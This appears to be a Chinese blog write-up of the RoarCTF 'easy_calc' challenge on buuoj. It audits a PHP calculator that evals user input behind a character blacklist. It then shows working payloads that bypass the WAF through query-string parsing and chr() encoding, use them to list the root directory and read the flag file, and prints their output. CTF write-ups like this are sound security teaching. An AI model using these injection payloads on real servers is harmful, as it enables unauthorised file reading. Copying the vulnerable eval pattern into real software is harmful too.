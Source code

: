 ```yaml
---
title: buuoj刷题记录2
date: 2019-12-26 20:16:12
tags:
 - ctf
 - Roarctf
 - web
 - buuoj
---
```


## [Roarctf]easy_calc

### 0x00 基础

php内置读取文件内容函数

```
file_get_contents()
readfile()
file()
```

目录扫描函数

```
scandir()
```

<!--more-->

字符转换函数

```
hex2bin("979797")->"aaa"
chr(95)->"a"
```

输出函数

```
var_dump()
printf()
```

`parse_str`函数通常被自动应用于`get`、`post`请求和`cookie`中。使用`parse_str`解析规则绕过waf

### 0x01 分析

查看源码，发现calc.php

```php
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

进入calc.php,进行代码审计。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {    
                        die("what are you want to do?");//如果包含黑名单中的字符，程序退出
                }
        }
        eval('echo '.$str.';');
}
?> 
```

### 0x02 开始操作

传入`1+1` 显示`403 Forbidden` 传入`1%2b1`就可以。必须传入url编码后的。查看`phpinfo()`，也是`403 Forbidden`，利用PHP自动解析函数`parser_str()`绕过，详细介绍查看[参考连接](https://www.freebuf.com/articles/web/213359.html)。

扫描目录使用`scandir()`因为`/ '  "`被过滤无法直接使用`/`，使用`chr()`转换payload= `?+num=print_r(scandir(chr(47)))`

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => f1agg [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => root [16] => run [17] => sbin [18] => srv [19] => start.sh [20] => sys [21] => tmp [22] => usr [23] => var ) 1
```

使用PHP内置函数获`file_get_contents()`获取文件内容payload=`?+num=printf(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

```
flag{d09c31b7-d1a1-45a2-b35b-65452a1335ef} 43
```

